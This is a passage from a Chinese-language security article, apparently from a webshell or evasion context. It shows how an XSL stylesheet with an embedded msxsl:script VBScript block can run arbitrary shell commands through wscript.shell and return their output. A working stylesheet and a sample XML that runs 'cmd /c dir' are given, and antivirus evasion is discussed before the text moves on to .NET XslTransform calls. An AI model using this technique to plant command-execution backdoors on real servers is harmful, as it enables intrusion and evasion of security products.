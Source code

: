 参考msdn得知，自定义函数必须位于msxsl:script元素内，对照示例不难得到以下xsl：

```
<?xml version='1.0'?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" xmlns:zcg="zcgonvh">
  <msxsl:script language="vbscript" implements-prefix="zcg">
    <![CDATA[function xml(x):set a=createobject("wscript.shell"):set exec=a.Exec(x):xml=exec.stdout.readall&exec.stderr.readall:end function]]>
  </msxsl:script>
  <xsl:template match="/root">
    <xsl:value-of select="zcg:xml(string(.))"/>
  </xsl:template>
</xsl:stylesheet>

```

在第二行中，xmlns:msxsl为自定义函数块的命名空间，xmlns:zcg为自定义函数的命名空间与前缀，可以任意命名。

第三行的msxsl:script声明了一个脚本块，其language属性指定了要使用的脚本语言，implements-prefix则与前面xmlns:zcg这个命名空间前缀相对应。

在第七行通过zcg:xml(string(.))调用了这个自定义函数，由于自定义函数只能传入字符串、数字、日期等标量，以及XML的一系列对象，所以先通过string内置函数转换为字符串从而获取text，再传入函数中。同样的，由于Response、Server等对象是asp内置的，所以既不能在自定义函数中访问，也不能传递给自定义函数，所有的数据传递都是通过字符串进行的。

脚本块的函数则是简单的执行-返回，其返回值会替换所匹配的节点的内容，所以上述xsl的作用就是：将指定xml中/root节点的文本作为命令执行，并返回结果。

对以下xml进行转换，其返回结果如图：

```
<?xml version="1.0"?>
<root>cmd /c dir</root>

```

![enter image description here](http://drops.javaweb.org/uploads/images/2315c61199e82bbef90dfd4e9f9101604cb1f2df.jpg)

可见成功执行了命令，其结果中的特殊字符都被转换成了xml实体，需要进一步进行处理。

最后，在之前某个IE漏洞中，老外所用的DVE就是使用上述方法来调用组件执行命令，所以免杀效果已经没有保证了。

0x03 .net与xml
=====

xml可以称为.net的核心之一，[System.Xml]System.Xml.Xsl.XslCompiledTransform类和[System.Xml]System.Xml.Xsl.XslTransform类提供了XSL转换功能。

XslTransform属于已弃用的类，其调用方法如下：

```
XmlDocument xmldoc=new XmlDocument();
xmldoc.LoadXml(xml);
XmlDocument xsldoc=new XmlDocument();
xsldoc.LoadXml(xslt);
XslTransform xt = new XslTransform();
xt.Load(xsldoc);
xt.Transform(xmldoc, null);

```
